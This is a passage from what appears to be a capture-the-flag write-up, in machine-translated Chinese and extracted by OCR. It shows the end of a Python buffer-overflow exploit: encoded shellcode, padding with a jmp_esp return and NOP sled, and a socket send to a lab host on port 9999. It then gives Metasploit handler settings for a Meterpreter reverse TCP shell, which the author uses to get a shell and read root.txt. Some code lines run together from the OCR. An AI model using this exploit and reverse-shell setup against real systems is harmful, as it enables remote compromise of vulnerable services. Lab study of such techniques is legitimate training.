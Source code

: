 ```
shellcode += b"\xef\x17\x8b\x3a\xaa\x8a\xf7\x6b\x4f\x77\xa3"
shellcode += b"\xdd\xa0\xc3\x08\xed\xb9\x7e\x5b\x06\x29\x21"
shellcode += b"\x45\x94\xf3\xf8\x4f\x0f\xf8\x8b\x81\x5c\x7b"
shellcode += b"\x28\x49\x97\x68\x9c\xf7\x70\xb9\x6a\x4b\x30"
shellcode += b"\xf5\x8b\x8b\x61\x1a\xcc\xc2\xb8\xca\x83\x49"
shellcode += b"\xfc\x52\x92\x5b\x4e\xa0\x82\x50\xed\xb3\x60"
shellcode += b"\x03\x7f\x69\x82\xb2\xfd\x9e\xc1\xae\xb1\x75"
shellcode += b"\x8b\x81\x66\x73\x1b\x8c\x03\x91\x0a\x41\x2c"
shellcode += b"\xca\xda\xc2\x94\xe8\x4a\xf1\xe4\x80\x90\x92"
shellcode += b"\x86\xff\x3c\xdd\x26\xc2\x92\x36\x66\xf8\x82"
shellcode += b"\x5f\xfc\x52\x92\x0b\x4e\xa0\x82\x50\xcf\x3a"
shellcode += b"\xc8\x0a\xf4\xab\xec\x07\x95\xc5\x47\x1c\x17"
shellcode += b"\xe1\x79\x7d\xcb\x77\xf3\xb4\x9b\xe9\x3c\xc6"
shellcode += b"\x4c\x06\x6d\xb4\xb1\xe8\xc2\xcb\xed\x13\x54"
shellcode += b"\x03\xcb\x56\xb6\xbc\xe4\xc5\x75\x13\x24\xa0"
shellcode += b"\x9a\x41\x62\xf8\x62\xfe\xec\xf6\x3c\xdd\xa5"
shellcode += b"\x3a"buffer = b"A"*offset+jmp_esp+nop_sled+shellcodetry: s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect(("10.0.2.8",9999)) s.send((b"testuser"+b"\r\n")) s.recv(1024) s.send((buffer+b"\r\n")) s.recv(1024) s.close()except: print("error") sys.exit() 
```

# ✅剥削

用 Metasploit
`exploit/multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set lhost eth0`
`set lport 4444`
打开反向 shell 处理程序，执行上述脚本后监听反向连接！！

![](img/818a81108e72a5ce09ad4fe6663ab660.png)

最后，我们得到了反向外壳。现在我们终于可以找到我们的 root.txt 文件了
